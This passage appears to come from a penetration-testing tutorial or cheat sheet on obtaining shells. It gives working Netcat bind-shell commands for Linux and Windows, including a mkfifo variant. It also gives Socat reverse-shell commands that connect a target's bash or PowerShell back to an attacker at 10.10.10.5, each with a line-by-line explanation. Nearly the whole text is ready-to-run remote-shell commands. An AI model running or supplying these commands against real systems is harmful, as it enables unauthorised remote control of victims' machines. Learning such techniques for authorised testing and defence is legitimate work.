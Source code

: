 #### Bind Shell
- **Target (Linux, with `-e`)**:
  ```bash
  nc -lvnp 4444 -e /bin/bash
  ```
  - **Line-by-Line**:
    - `nc`: Invokes Netcat.
    - `-l`: Listen mode.
    - `-v`: Verbose output.
    - `-n`: No DNS resolution.
    - `-p 4444`: Listen on port 4444.
    - `-e /bin/bash`: Binds `/bin/bash` to incoming connections.
- **Target (Linux, no `-e`)**:
  ```bash
  mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
  ```
  - **Line-by-Line**: Same as the reverse shell version, but `-lvnp 4444` sets up a listener instead of connecting.
- **Target (Windows, with `-e`)**:
  ```bash
  nc.exe -lvnp 4444 -e cmd.exe
  ```
  - **Line-by-Line**: Similar to Linux, but binds `cmd.exe`.
- **Attacker (connect)**:
  ```bash
  nc 10.10.10.100 4444
  ```
  - **Line-by-Line**:
    - `nc`: Invokes Netcat.
    - `10.10.10.100`: The target’s IP address.
    - `4444`: The port the target is listening on.

### 4.2 Socat Shells
Socat is more complex but offers greater stability and features like encryption.

#### Reverse Shell
- **Attacker (basic listener)**:
  ```bash
  socat TCP-L:443 -
  ```
  - **Line-by-Line**:
    - `socat`: Invokes the Socat binary.
    - `TCP-L:443`: Sets up a TCP listener on port 443 (`L` for listen).
    - `-`: Connects the listener to standard input/output (your keyboard/terminal).
- **Target (Linux)**:
  ```bash
  socat TCP:10.10.10.5:443 EXEC:"bash -li"
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP:10.10.10.5:443`: Connects to the attacker’s IP and port.
    - `EXEC:"bash -li"`: Executes `bash` with `-l` (login shell, loads profile) and `-i` (interactive mode).
- **Target (Windows)**:
  ```bash
  socat TCP:10.10.10.5:443 EXEC:powershell.exe,pipes
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP:10.10.10.5:443`: Connects to the attacker’s IP and port.
    - `EXEC:powershell.exe,pipes`: Executes `powershell.exe`, using `pipes` to handle Unix-style input/output for Windows compatibility.
